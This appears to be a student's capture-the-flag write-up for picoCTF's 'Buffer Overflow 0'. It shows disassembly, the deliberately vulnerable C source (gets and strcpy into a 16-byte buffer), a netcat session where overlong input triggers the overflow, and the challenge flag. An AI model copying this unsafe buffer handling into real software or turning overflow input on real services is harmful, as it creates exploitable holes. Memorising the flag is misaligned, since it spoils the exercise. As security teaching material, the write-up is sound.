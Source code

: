 # Binary_Exploitation
## Challenge 1: Buffer Overflow 0
I started off by checking the file details of the source and program files as I wasn’t sure of how to begin. 
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % file vuln.c
vuln.c: c program text, ASCII text

Then I viewed the assembly code
```
(lldb) target create vuln
Current executable set to '/Users/mahikakapil/cryptonite_tp2_Mahika/vuln' (i386).
(lldb) disassemble -n main
vuln`main:
vuln[0x1382] <+0>:   endbr32 
vuln[0x1386] <+4>:   leal   0x4(%esp), %ecx
vuln[0x138a] <+8>:   andl   $-0x10, %esp
vuln[0x138d] <+11>:  pushl  -0x4(%ecx)
vuln[0x1390] <+14>:  pushl  %ebp
vuln[0x1391] <+15>:  movl   %esp, %ebp
vuln[0x1393] <+17>:  pushl  %ebx
vuln[0x1394] <+18>:  pushl  %ecx
vuln[0x1395] <+19>:  subl   $0x70, %esp
vuln[0x1398] <+22>:  calll  0x1210                    ; __x86.get_pc_thunk.bx
vuln[0x139d] <+27>:  addl   $0x2c0f, %ebx             ; imm = 0x2C0F 
vuln[0x13a3] <+33>:  subl   $0x8, %esp
vuln[0x13a6] <+36>:  leal   -0x1fa4(%ebx), %eax
vuln[0x13ac] <+42>:  pushl  %eax
vuln[0x13ad] <+43>:  leal   -0x1fa2(%ebx), %eax
vuln[0x13b3] <+49>:  pushl  %eax
vuln[0x13b4] <+50>:  calll  0x11b0                    ;  + 160
vuln[0x13b9] <+55>:  addl   $0x10, %esp
vuln[0x13bc] <+58>:  movl   %eax, -0xc(%ebp)
vuln[0x13bf] <+61>:  cmpl   $0x0, -0xc(%ebp)
vuln[0x13c3] <+65>:  jne    0x13ef                    ; <+109>
vuln[0x13c5] <+67>:  subl   $0x4, %esp
vuln[0x13c8] <+70>:  leal   -0x1f99(%ebx), %eax
vuln[0x13ce] <+76>:  pushl  %eax
vuln[0x13cf] <+77>:  leal   -0x1f84(%ebx), %eax
vuln[0x13d5] <+83>:  pushl  %eax
vuln[0x13d6] <+84>:  leal   -0x1f4f(%ebx), %eax
vuln[0x13dc] <+90>:  pushl  %eax
vuln[0x13dd] <+91>:  calll  0x1110
vuln[0x13e2] <+96>:  addl   $0x10, %esp
vuln[0x13e5] <+99>:  subl   $0xc, %esp
vuln[0x13e8] <+102>: pushl  $0x0
vuln[0x13ea] <+104>: calll  0x1190                    ;  + 128
vuln[0x13ef] <+109>: subl   $0x4, %esp
vuln[0x13f2] <+112>: pushl  -0xc(%ebp)
vuln[0x13f5] <+115>: pushl  $0x40
vuln[0x13f7] <+117>: leal   0x94(%ebx), %eax
vuln[0x13fd] <+123>: pushl  %eax
vuln[0x13fe] <+124>: calll  0x1140                    ;  + 48
vuln[0x1403] <+129>: addl   $0x10, %esp
vuln[0x1406] <+132>: subl   $0x8, %esp
vuln[0x1409] <+135>: leal   -0x2c9f(%ebx), %eax
vuln[0x140f] <+141>: pushl  %eax
vuln[0x1410] <+142>: pushl  $0xb
vuln[0x1412] <+144>: calll  0x1150                    ;  + 64
vuln[0x1417] <+149>: addl   $0x10, %esp
vuln[0x141a] <+152>: calll  0x1160                    ;  + 80
vuln[0x141f] <+157>: movl   %eax, -0x10(%ebp)
vuln[0x1422] <+160>: subl   $0x4, %esp
vuln[0x1425] <+163>: pushl  -0x10(%ebp)
vuln[0x1428] <+166>: pushl  -0x10(%ebp)
vuln[0x142b] <+169>: pushl  -0x10(%ebp)
vuln[0x142e] <+172>: calll  0x11c0                    ;  + 176
vuln[0x1433] <+177>: addl   $0x10, %esp
vuln[0x1436] <+180>: subl   $0xc, %esp
vuln[0x1439] <+183>: leal   -0x1f49(%ebx), %eax
vuln[0x143f] <+189>: pushl  %eax
vuln[0x1440] <+190>: calll  0x1110
vuln[0x1445] <+195>: addl   $0x10, %esp
vuln[0x1448] <+198>: movl   0x48(%ebx), %eax
vuln[0x144e] <+204>: movl   (%eax), %eax
vuln[0x1450] <+206>: subl   $0xc, %esp
vuln[0x1453] <+209>: pushl  %eax
vuln[0x1454] <+210>: calll  0x1120                    ;  + 16
vuln[0x1459] <+215>: addl   $0x10, %esp
vuln[0x145c] <+218>: subl   $0xc, %esp
vuln[0x145f] <+221>: leal   -0x74(%ebp), %eax
vuln[0x1462] <+224>: pushl  %eax
vuln[0x1463] <+225>: calll  0x1130                    ;  + 32
vuln[0x1468] <+230>: addl   $0x10, %esp
vuln[0x146b] <+233>: subl   $0xc, %esp
vuln[0x146e] <+236>: leal   -0x74(%ebp), %eax
vuln[0x1471] <+239>: pushl  %eax
vuln[0x1472] <+240>: calll  0x1353                    ; vuln
vuln[0x1477] <+245>: addl   $0x10, %esp
vuln[0x147a] <+248>: subl   $0xc, %esp
vuln[0x147d] <+251>: leal   -0x1f41(%ebx), %eax
vuln[0x1483] <+257>: pushl  %eax
vuln[0x1484] <+258>: calll  0x1180                    ;  + 112
vuln[0x1489] <+263>: addl   $0x10, %esp
vuln[0x148c] <+266>: movl   $0x0, %eax
vuln[0x1491] <+271>: leal   -0x8(%ebp), %esp
vuln[0x1494] <+274>: popl   %ecx
vuln[0x1495] <+275>: popl   %ebx
vuln[0x1496] <+276>: popl   %ebp
vuln[0x1497] <+277>: leal   -0x4(%ecx), %esp
vuln[0x149a] <+280>: retl   
```
I also tried connecting to the program using `nc saturn.picoctf.net 53460` which gave a prompt for input and then exited. 

mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc saturn.picoctf.net 53460
Input: hello
The program will exit now

Then I decided to analyze the program.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```
Here, the function vuln takes an input in the array buf2 of maximum 16 characters. So I inputted more than 16 random characters and got the flag by overflowing the buffer. The assembly code didn’t really come in use here.
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % nc saturn.picoctf.net 54932
Input: djakcnjIJSDCAJCJNDJLdjnjljcjhdhafhijldadefrefdsfghytrf
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


>Errors and mistakes:
1. I ran the command `lldb vuln.c ` but this resulted in the following error:
```
mahikakapil@Mahikas-MacBook-Air cryptonite_tp2_Mahika % lldb vuln.c     
(lldb) target create "vuln.c"
error: '/Users/mahikakapil/cryptonite_tp2_Mahika/vuln.c' doesn't contain any 'host' platform architectures: arm64, armv7, armv7f, armv7k, armv7s, armv7m, armv7em, armv6m, armv6, armv5, armv4, arm, thumbv7, thumbv7k, thumbv7s, thumbv7f, thumbv7m, thumbv7em, thumbv6m, thumbv6, thumbv5, thumbv4t, thumb, x86_64, x86_64, arm64, arm64e, arm64, arm64e
``` 
I had to use the source code file instead as it was an ELF file. Later, I realized that this challenge could be done without the assembly code.

FLAG: picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
